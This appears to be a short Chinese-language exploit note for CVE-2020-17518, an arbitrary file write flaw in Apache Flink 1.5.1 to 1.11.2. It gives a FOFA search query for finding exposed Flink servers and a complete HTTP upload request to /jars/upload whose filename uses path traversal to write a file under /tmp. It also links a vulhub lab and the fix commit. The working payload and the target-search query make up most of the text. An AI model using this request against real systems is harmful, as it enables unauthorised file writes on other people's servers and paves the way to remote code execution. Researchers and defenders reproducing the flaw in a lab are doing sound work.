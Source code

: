 # CVE-2020-17518 Apache Flink 任意文件写入

影响范围

Apache Flink 1.5.1 ~ 1.11.2

FOFA：

```
app="APACHE-Flink" 
```


```bash
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 201

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/ywhack.txt"

forum.ywhack.com
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

ref

https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518
https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
